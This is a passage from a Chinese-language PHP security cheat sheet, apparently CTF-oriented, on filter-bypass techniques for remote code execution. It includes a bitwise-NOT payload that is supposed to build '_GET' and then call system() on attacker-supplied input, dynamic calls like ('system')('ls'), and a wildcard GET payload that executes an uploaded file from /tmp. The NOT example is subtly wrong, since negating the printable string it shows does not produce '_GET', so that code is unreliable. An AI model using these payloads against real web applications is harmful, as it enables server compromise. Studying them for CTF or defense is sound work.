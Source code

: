 
### 13. 无字母数字 RCE (取反运算绕过) 🔄

**核心原理：**

与异或类似，按位取反运算 (`~`) 也可以用来从非字母数字字符构造出字母数字字符。PHP 中的取反运算是对字符串的每个字节进行操作。

**构造思路与执行：**

通过对一系列非字母数字字符进行取反，然后拼接，可以得到一个乱码字符串。这个字符串可能是某个函数名或 payload 的 URL 编码形式，PHP 在某些上下文中会自动解码。

**利用示例：**

```php
<?php
// 目标：执行 _GET[1](_GET[2])
// 例如: ?1=system&2=ls

// (~"sl'h") -> "_GET"
$_ = (~"sl'h");
// ($$_)[1] -> $_GET[1] -> "system"
// ($$_)[2] -> $_GET[2] -> "ls"
${$_}[1](${$_}[2]);
?>
```

---

### 14. 无字母数字特殊符号绕过 ⚠️

**核心原理：**

当连 `_` (下划线)、`$` (美元符号) 等常见辅助字符也被过滤时，需要更高级的技巧。

**绕过技巧：**

* **过滤 `_` 和 `$` (PHP 7)：**
    可以使用 `(函数名字符串)(参数)` 的方式动态调用函数。
    * `('phpinfo')();`
    * `('system')('ls');`
    这些字符串本身可以通过前面介绍的异或、取反等方法构造。

* **过滤 `_` 和 `$` (PHP 5，利用文件上传)：**
    当 POST 方法上传文件时，PHP 会将上传的文件保存在临时目录（如 `/tmp`），默认文件名是 `phpXXXXXX`。这个临时文件名可以被猜测或通过通配符匹配并执行。
    * **Payload:** `?cmd=. /???/????????`
    * **攻击流程:**
        1.  上传一个内容为 shell 脚本的文件。
        2.  发送上述 GET 请求，其中 `???/????????` 是用来匹配 `/tmp/phpXXXXXX` 的通配符，`.` 命令（source）会执行该脚本。

* **过滤大多数符号 (自增运算符绕过)：**
    可以利用 PHP 的自增 (`++`) /自减 (`--`) 运算符配合数组和字符串转换。通过对未定义常量进行字符串化（结果为常量名字符串），然后取其字符，再进行自增运算，可以得到 ASCII 序上的下一个字符，从而逐个构造出函数名和参数。

---

### 15. 文件包含绕过 (利用封装协议) 🎁

